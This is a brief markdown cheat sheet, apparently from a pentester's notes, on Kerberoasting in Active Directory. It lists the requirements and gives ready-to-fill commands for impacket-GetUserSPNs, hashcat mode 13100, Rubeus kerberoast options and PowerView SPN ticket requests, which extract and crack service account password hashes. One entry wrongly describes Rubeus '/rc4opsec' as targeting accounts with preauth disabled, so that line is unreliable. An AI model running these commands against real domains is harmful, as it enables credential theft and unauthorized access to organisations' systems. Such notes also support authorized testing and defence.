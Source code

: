 # Kerberoasting
-  allows an attacker with domain access to extract service account hashes (SPNs) from the domain controller, which can then be cracked offline to recover passwords.
- accounts with SPNs registered are required
- Service accounts are priority
- No need for elevated privileges
## Requirements
- Valid domain user credentials
- Access to port 88
## Tools & Commands

### impacket - GetUserSPNs
```bash
impacket-GetUserSPNs [REALM]/[username]:[password] -dc-ip [IP] -request
```
- Lists service principal names and extracts TGS tickets.
- Output tickets can be cracked using hashcat or john.

### hashcat to crack TGS Tickets
```bash
hashcat -m 13100 [ticket_hashes.txt] [wordlist.txt]
```

### Rubeus

##### Kerberoast all SPNs
```powershell
Rubeus.exe kerberoast
```

##### Output to hashcat format
```powershell
Rubeus.exe kerberoast /outputformat:hashcat
```

##### Only roast accounts with preauth disabled
```powershell
Rubeus.exe kerberoast /rc4opsec
```

### PowerView
```powershell
Get-DomainUser -SPN
Request-SPNTicket -SPN 'service/account'
```